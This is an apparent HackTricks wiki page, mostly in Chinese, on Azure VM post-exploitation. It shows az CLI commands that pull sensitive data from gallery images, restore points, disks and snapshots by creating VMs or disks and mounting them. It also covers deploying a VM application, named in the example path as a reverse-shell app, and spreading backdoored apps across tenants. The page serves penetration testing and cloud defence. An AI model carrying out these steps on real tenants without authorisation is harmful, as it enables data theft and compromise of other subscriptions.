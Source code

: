 # Az - VMs & Network Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## VMs & Network

有关 Azure VMs 和网络的更多信息，请查看以下页面：

{{#ref}}
../az-services/vms/
{{#endref}}

### VM 应用程序转发

VM 应用程序可以与其他订阅和租户共享。如果一个应用程序正在被共享，可能是因为它正在被使用。因此，如果攻击者成功地 **破坏了应用程序并上传了一个后门** 版本，可能会 **在另一个租户或订阅中执行**。

### 图像中的敏感信息

可能会发现 **过去从 VMs 拍摄的图像中包含敏感信息**。

1. **列出图库中的图像**
```bash
# Get galleries
az sig list -o table

# List images inside gallery
az sig image-definition list \
--resource-group <RESOURCE_GROUP> \
--gallery-name <GALLERY_NAME> \
-o table

# Get images versions
az sig image-version list \
--resource-group <RESOURCE_GROUP> \
--gallery-name <GALLERY_NAME> \
--gallery-image-definition <IMAGE_DEFINITION> \
-o table
```
2. **列出自定义镜像**
```bash
az image list -o table
```
3. **从镜像 ID 创建 VM** 并在其中搜索敏感信息
```bash
# Create VM from image
az vm create \
--resource-group <RESOURCE_GROUP> \
--name <VM_NAME> \
--image /subscriptions/<SUBSCRIPTION_ID>/resourceGroups/<RESOURCE_GROUP>/providers/Microsoft.Compute/galleries/<GALLERY_NAME>/images/<IMAGE_DEFINITION>/versions/<IMAGE_VERSION> \
--admin-username <ADMIN_USERNAME> \
--generate-ssh-keys
```
### 恢复点中的敏感信息

可能会在 **恢复点中找到敏感信息**。

1. **列出恢复点**
```bash
az restore-point list \
--resource-group <RESOURCE_GROUP> \
--restore-point-collection-name <COLLECTION_NAME> \
-o table
```
2. **从还原点创建磁盘**
```bash
az disk create \
--resource-group <RESOURCE_GROUP> \
--name <NEW_DISK_NAME> \
--source /subscriptions/<SUBSCRIPTION_ID>/resourceGroups/<RESOURCE_GROUP>/providers/Microsoft.Compute/restorePointCollections/<COLLECTION_NAME>/restorePoints/<RESTORE_POINT_NAME>
```
3. **将磁盘附加到虚拟机**（攻击者需要已经入侵了帐户内的虚拟机）
```bash
az vm disk attach \
--resource-group <RESOURCE_GROUP> \
--vm-name <VM_NAME> \
--name <DISK_NAME>
```
4. **挂载**磁盘并**搜索敏感信息**

{{#tabs }}
{{#tab name="Linux" }}
```bash
# List all available disks
sudo fdisk -l

# Check disk format
sudo file -s /dev/sdX

# Mount it
sudo mkdir /mnt/mydisk
sudo mount /dev/sdX1 /mnt/mydisk
```
{{#endtab }}

{{#tab name="Windows" }}

#### **1. 打开磁盘管理**

1. 右键点击 **开始**，选择 **磁盘管理**。
2. 附加的磁盘应显示为 **离线** 或 **未分配**。

#### **2. 将磁盘上线**

1. 在底部窗格中找到磁盘。
2. 右键点击磁盘（例如，**磁盘 1**）并选择 **在线**。

#### **3. 初始化磁盘**

1. 如果磁盘未初始化，右键点击并选择 **初始化磁盘**。
2. 选择分区样式：
- **MBR**（主引导记录）或 **GPT**（GUID 分区表）。建议现代系统使用 GPT。

#### **4. 创建新卷**

1. 右键点击磁盘上的未分配空间，选择 **新建简单卷**。
2. 按照向导操作：
- 分配驱动器字母（例如，`D:`）。
- 格式化磁盘（大多数情况下选择 NTFS）。
{{#endtab }}
{{#endtabs }}

### 磁盘和快照中的敏感信息

可能会在 **磁盘或旧磁盘快照中找到敏感信息**。

1. **列出快照**
```bash
az snapshot list \
--resource-group <RESOURCE_GROUP> \
-o table
```
2. **从快照创建磁盘**（如有需要）
```bash
az disk create \
--resource-group <RESOURCE_GROUP> \
--name <DISK_NAME> \
--source <SNAPSHOT_ID> \
--size-gb <DISK_SIZE>
```
3. **将磁盘附加并挂载**到虚拟机并搜索敏感信息（查看上一节了解如何操作）

### 虚拟机扩展和虚拟机应用中的敏感信息

可能会在**虚拟机扩展和虚拟机应用中找到敏感信息**。

1. **列出所有虚拟机应用**
```bash
## List all VM applications inside a gallery
az sig gallery-application list --gallery-name <gallery-name> --resource-group <res-group> --output table
```
2. 在虚拟机中安装扩展并**搜索敏感信息**
```bash
az vm application set \
--resource-group <rsc-group> \
--name <vm-name> \
--app-version-ids /subscriptions/9291ff6e-6afb-430e-82a4-6f04b2d05c7f/resourceGroups/Resource_Group_1/providers/Microsoft.Compute/galleries/myGallery/applications/myReverseShellApp/versions/1.0.2 \
--treat-deployment-as-failure true
```
{{#include ../../../banners/hacktricks-training.md}}
